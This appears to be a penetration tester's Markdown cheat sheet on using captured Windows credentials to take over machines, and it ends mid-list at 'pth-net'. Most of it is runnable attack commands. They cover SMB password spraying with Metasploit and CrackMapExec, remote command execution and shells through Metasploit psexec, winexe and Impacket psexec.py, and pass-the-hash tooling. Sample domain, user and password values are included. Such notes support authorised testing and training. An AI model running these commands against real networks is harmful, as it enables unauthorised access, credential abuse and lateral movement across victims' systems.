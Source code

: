 --- Source ---

https://blog.ropnop.com/using-credentials-to-own-windows-boxes/

https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/

https://blog.ropnop.com/practical-usage-of-ntlm-hashes/

## <----- From Kali -----> ##

#### --- Spray and Pray--- ####

```
msf > use auxiliary/scanner/smb/smb_login  
msf auxiliary(smb_login) > set SMBDomain CSCOU  
SMBDOMAIN => CSCOU  
msf auxiliary(smb_login) > set SMBUser jarrieta  
SMBUser => jarrieta  
msf auxiliary(smb_login) > set SMBPass nastyCutt3r  
SMBPass => nastyCutt3r  
msf auxiliary(smb_login) > services -p 445 -R  
msf auxiliary(smb_login) > run
```
*Note: Any succesfull logins will be stored in the msf database. View them with:* ```creds```

#### --- CrackMapExec (CME) --- ####

Testing credentials and launching attacks on a large number of hosts

```cme smb $ip_or_range -d $domain -u $user -p $password```


#### --- Metasploit psexec --- ####

```use exploit windows/smb/psexec```

NOTE: ```auxiliary/admin/smb/psexec_command``` if you want to just run a single command. This module can also take a range of RHOSTS


#### --- Winexe --- ####

An old *nix tool to execute Windows commands remotely, built in to Kali.
You can execute a single command or drop right into a command prompt:

```winexe -U $domain/$user%$password //$host_ip cmd.exe```

Or

```winexe -U Administrator%password123 //192.168.1.11 "cmd"```

### Impacket ###

#### --- psexec.py --- ####

NOTE: Use clone in ```/opt```

```python psexec.py $domain/$user:$password@ip_address```

https://github.com/byt3bl33d3r/pth-toolkit

> "pth" suite contains a bunch of programs that have been patched to support authenticating with hashes:
> They're the same, we're just using a Hash instead of a plaintext password now.

```pth-net```
```